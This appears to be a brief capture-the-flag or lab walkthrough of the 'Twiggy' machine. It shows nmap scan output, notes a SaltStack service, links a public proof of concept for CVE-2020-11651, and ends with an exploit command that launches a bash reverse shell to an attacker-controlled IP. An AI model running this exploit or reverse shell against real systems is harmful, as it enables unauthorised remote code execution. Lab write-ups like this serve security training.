 <h1>NMAP</h1>
```
nmap -sC -sV -oA Twiggy 192.168.195.62
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-01 21:37 CDT
Nmap scan report for 192.168.195.62
Host is up (0.079s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 447d1a569b68aef53bf6381773165d75 (RSA)
|   256 1c789d838152f4b01d8e3203cba61893 (ECDSA)
|_  256 08c912d97b9898c8b3997a19822ea3ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.26 seconds
```

Found that the web server was running Mezzanine on port 80 and provided json on port 8000. Web server was not exploitable as I didn't have credentials. Was able to find that port 800 was running cherrypy with salt stack. Found exploit for salt stack.

https://github.com/jasperla/CVE-2020-11651-poc

```
python3 exploit.py --master 192.168.195.62 --exec "bash -i >& /dev/tcp/192.168.49.195/80 0>&1
```
